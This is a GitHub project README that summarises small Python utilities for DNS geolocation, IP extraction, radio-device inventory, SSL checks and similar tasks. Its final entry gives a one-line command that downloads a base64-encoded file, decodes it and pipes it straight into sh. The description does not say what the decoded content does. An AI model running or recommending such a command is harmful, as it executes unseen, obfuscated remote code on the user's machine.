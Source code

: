 # Project Documentation

## speedo.py

This Python code takes known data points of speedometer readings and actual speeds, calculates a linear approximation, and uses it to create a table of predicted speedometer readings based on actual speeds. The code defines lists of known speedometer readings and actual speeds, performs mathematical calculations to determine the linear equation for the approximation, and then predicts speedometer readings for a given range of speeds. The results are printed as a table. The code also includes commented-out code for plotting data using Matplotlib.

## geo_domain.py

This Python script resolves domain names from a list stored in a file, performs DNS lookups to obtain the IP addresses, and retrieves geo-location information for those IPs using the ip-api.com API. If the domain list file is empty or missing, it generates a list from a predefined set of domains. The script then formats and displays the geo-location data in a tabular format, including details such as domain name, IP address, city, region/state, country, and timezone. Additionally, the script ensures required data is present in the API request and manipulates data for clarity before printing the final results.

## ip_getter.py

This Python script reads a text file containing various content and extracts IP addresses from it. It then consolidates and sorts the extracted IPs, writing them to a specified output file while avoiding subnet masks. The script uses regular expressions to identify IP addresses in the text and filters out subnet masks from the final list of IPs.

## cambium_radio.py

This Python script performs the following tasks:

1. Reads a set of IP addresses from a file and processes each IP address.
2. Checks the availability of the IP address by pinging and confirming if a specific port (443 by default) is open.
3. Logs in to a radio device using credentials from a file and retrieves device information.
4. Populates a dictionary representing the inventory of devices with details such as IP, model, serial, version, node type, MAC address, uptime, and error statistics.
5. Retrieves aggregate link statistics from specific types of nodes.
6. Compiles statistics and updates error information for devices in the inventory.
7. Generates a Pandas DataFrame displaying the device inventory with relevant information.
8. The script reads credentials from a file, interacts with different radio devices over HTTP connections, retrieves device info and statistics, and consolidates the data into a structured output.

The script is designed to be run as a standalone program, which can be executed directly to fetch device data and display it in a tabular format.

## gen_readme.py

This Python script is designed to automatically generate a README.md file for a project by summarizing Python code files within a specified directory. Here's a summary of the key functionality:

1. The script first loads the OpenAI API key from a JSON file. If the file does not exist, it prompts the user to create it and add the key.

2. The `summarize_code` function reads a Python file, passes the code snippet to the OpenAI API for summarization using the GPT-3.5-Turbo model, and returns the generated summary.

3. The `generate_readme` function finds all Python files in a specified directory, generates a summary for each file using the OpenAI API, and constructs a README.md file with these summaries.

4. The script executes the generation of the README file by calling the `load_api_key` function to retrieve the API key, setting the directory to the current directory, and then calling the `generate_readme` function with the directory and API key as parameters.

This script provides a convenient way to summarize Python code files in a project directory for documentation purposes using the OpenAI API's text summarization capabilities.

## csv_maker.py

This Python code allows users to collect data from a web page table into a CSV file by pasting the data into the console, then hitting enter. The script runs in an infinite loop until the user stops it by pressing CTRL + C. The data pasted by the user is split by tab character and written into the CSV file with specific headers. Upon termination, the collected data is saved in an 'output.csv' file in the directory where the script is located.

## nm.py

This Python script retrieves a JavaScript file from a specific URL related to the New Mexico Secretary of State Business Search portal. The JavaScript file contains a payload that includes city names, building names, and possibly business names. The script extracts the JSON data from the JavaScript file, specifically searching for the 'availabelCitys' variable using regex. If the variable is found, it converts the JSON data into a Python dictionary and saves the city names into a text file named "nm_sos_dumb_list.txt". If the variable is not found, it informs the user with a message.

## ssl_checker.py

This Python script checks SSL certificates for specified domains and displays their expiration date, days remaining until expiration, and certificate authority. It also generates a list of random domain names for demonstration purposes if run in demo mode. The script reads domain names from a file or generates random ones if needed. It then establishes a connection to the domain, captures certificate information, and prints relevant details. The script can be run with command-line arguments to control its behavior.


## macos.fart

This Python code decodes a base64-encoded string and is for MacOS users only.
```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/greaselovely/random/main/macos.fart | base64 -d )"
```